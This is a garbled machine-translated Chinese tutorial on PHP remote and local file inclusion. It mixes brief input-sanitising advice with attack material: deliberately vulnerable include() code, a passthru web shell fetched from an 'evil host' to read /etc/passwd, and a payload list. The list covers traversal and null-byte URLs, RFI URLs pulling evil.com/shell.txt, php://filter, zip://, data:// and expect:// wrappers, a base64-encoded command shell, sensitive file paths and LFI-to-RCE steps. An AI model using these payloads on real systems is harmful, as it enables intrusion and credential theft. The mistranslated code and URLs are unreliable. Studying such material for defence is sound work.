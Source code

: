 # RFI/LFI:本地/远程文件包含

> 原文：<https://kalilinuxtutorials.com/rfi-lfi-local-remote-file-inclusion/>

[![RFI/LFI : Local/Remote File Inclusion](img//02483fb5f5fab1358ee52639fa603dac.png "RFI/LFI : Local/Remote File Inclusion")](https://1.bp.blogspot.com/-d4WKNez3ZNE/XdBZbsdiTrI/AAAAAAAADdQ/nmhAzdgR7cYOtPsyWfjcQ05bPW0arFvpACLcBGAsYHQ/s1600/rfi-lfi.png)

让我们看一下 RFI/LFI 的有效载荷列表。与许多攻击一样，远程和本地文件包含只是编码结束时的一个问题。当然需要第二个人来拥有。

现在，这篇文章将有望让您了解如何保护您的网站，最重要的是保护您的代码免受文件包含漏洞的攻击。我将以 PHP 格式给出代码示例。

让我们来看看使 RFI / LFI 漏洞成为可能的一些代码。

**< a href=index.php？page = file 1 . PHP files</a>
<？PHP
$ page = $ _ GET[page]；
包含(＄page)；
？>**

显然这不应该被使用。$ page 条目没有完全清除。$页面输入直接指向该死的网页，这是一个大大的“不”。总是删除任何通过浏览器的输入。当用户在访问网页时点击“文件”访问“files.php”时，会出现类似这样的东西。

**也读作-[RSDL:用 Ping 方法扫描子域](https://kalilinuxtutorials.com/rsdl-subdomain-scan-with-ping-method/)**

**http: //localhost/index.php？page = files.php**

现在，如果没有人清除$ page 变量中的输入，我们可以让它指向我们想要的。如果托管在 unix / linux 服务器上，我们可以将密码显示为阴影或未清理变量输入的配置文件。

查看服务器上的文件是一种“本地文件包含”或 LFI 利用。这不比 RFI 漏洞更糟糕。

**http: //localhost/index.php？页面=../ ../ ../ ../ ../ ../ etc / passwd**

代码可能会返回到/ etc / passwd。现在让我们来看看这个漏洞的 RFI 方面。让我们拿一些我们以前用过的代码。

**< a href=index.php？page=file1.php >文件< /a >
<？PHP
$ page = $ _ GET[page]；
包含(＄page)；
？>**

现在假设我们写了这样的东西…

**http: //localhost/index.php？page = http: //google.com/**

大概在页面上最初放置$ page 变量的地方，我们会看到 google.com 主页。这是编码者可能受到伤害的地方。我们都知道 c99 (shell)可以做什么，如果编码人员小心的话，它们可能会被包含在页面中，允许用户在适当的时候浏览敏感文件和联系人。让我们看看在网页上发生的更简单的事情。更快更肮脏地利用 RFI 对你有利。现在，创建一个名为“test.php”的文件，将以下代码放入其中并保存。

**T4？PHP
passthru($ _ GET[cmd])；
？>**

现在，您可以利用这个文件将它包含在利用 RFI 的页面中。PHP 中的 passthru()命令很邪门，很多主机称之为“出于安全原因暂停服务”。使用 test.php 的这段代码，我们可以向网页发送请求，包括文件包含漏洞利用。

**http: //localhost/index.php？page = http://some evill host . com/test . PHP**

当代码发出$ _GET 请求时，我们必须提供一个命令传递给 passthru()。我们可以这样做。

**http: //localhost/index.php？page = http://some evil host . com/test . PHP？cmd = cat / etc / passwd**

这台 unix 机器还将使用 cat 命令提取文件/ etc / passwd。现在我们知道如何利用 RFI 漏洞，现在我们需要知道如何控制它，使任何人都无法执行命令，以及如何在您的服务器上包含远程页面。首先，我们可以禁用 passthru()。但是你的站点上的任何东西都可以再次使用它(希望不会)。但这是你唯一能做的。我建议像我之前说的那样清洁输入。现在，我们可以在函数中使用一些 PHP 建议的结构，而不仅仅是将变量直接传递给页面。最初，perl 中的 chop()被用于 PHP，它从数组中删除了空格。我们可以这样使用它。

**< a href=index.php？page=file1.php >文件< /a >
<？PHP
$ page = chop($ _ GET[page])；
包含(＄page)；
？>**

有很多函数可以清除字符串。htmlspecialchars () htmlentities()、stripslashes()等等。在困惑方面，我更喜欢用自己的函数。我们可以在 PHP 中做一个功能，可以为你清除一切，这里我为你准备了一些关于这门课程的简单快捷的东西。

**<？Php
函数 clean all($ input){
$ input = strip _ tags($ input)；
$ input = htmlspecialchars($ input)；
return(＄input)；
}
？>**

现在我希望你能看到这个函数内部发生了什么，这样你就可以添加你的了。我建议使用 str_replace()函数，还有很多其他函数可以清除它们。体谅和停止 RFI 和 LFI 剥削狂热！

**基本 LFI(空字节、双编码等招数):**

http://example.com/index.php?page=etc/passwd·http://example.com/index.php?page=etc/passwd%00·http://example.com/index.php?page=../../etc/passwd·http://example.com/index.php?page=%252e%252e%252f·http://example.com/index.php?page=….//….//etc/passwd

要查看的有趣文件:

/etc/issue
/etc/passwd
/etc/shadow
/etc/group
/etc/motd
/etc/MySQL/my . CNF
/proc/[0-9]*/FD/[0-9]*(第一个数字是 PID，第二个是文件描述符)
/proc/self/environ
/proc/version
/proc/cmdline

#### 基本 RFI(空字节、双编码等招数) :

**http://example.com/index.php?page=http://evil.com/shell.txt http://example.com/index.php?page = http://evil . com/shell . txt % 00 http://example.com/index.php?page = http:% 252 f % 252 fevil . com % 252 fshell . txt**

**LFI / RFI 包装:**

LFI 包装 rot13 和 base64-PHP://filter 不区分大小写。

http://example.com/index.php?page = PHP://filter/read = string . rot13/resource = index . PHP http://example.com/index.php?page = PHP://filter/convert . base64-encode/resource = index . PHP http://example.com/index.php?page = pHp://FilTer/convert . base64-encode/resource = index . pHp

可以用压缩包装器链接。http://example.com/index.php?page = PHP://filter/zlib . deflate/convert . base64-encode/resource =/etc/passwd

**LFI 包装邮编:**

echo "" payload . PHP；
zip payload . zip payload.php；【shell.jpg】mv payload . zip；
RM payload.php
http://example.com/index.php?page = zip://shell . jpg % 23 payload . PHP

**RFI 包装数据，有效负载:**

http://example.net/?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=

**RFI 包装期望:**

http://example.com/index.php?page=php:expect://id·http://example.com/index.php?page=php:expect://ls

**XSS 经 RFI/LFI，有效载荷:**

http://example.com/index.php?page=data:application/x-httpd-php;base64,PHN2ZyBvbmxvYWQ9YWxlcnQoMSk+

**LFI 到 RCE 途经/proc/*/fd :**

*   上传大量 shells(例如:100)
*   用$PID =进程的 PID(可以强制执行)和$FD 文件描述符(也可以强制执行)包含[http://example.com/index.php?page=/proc/$PID/fd/$FD](http://example.com/index.php?page=/proc/$PID/fd/$FD)

**LFI 到 RCE 途经上传:**

http://example.com/index.php?page=path/to/uploaded/file.png

[**Download**](https://github.com/payloadbox/rfi-lfi-payload-list)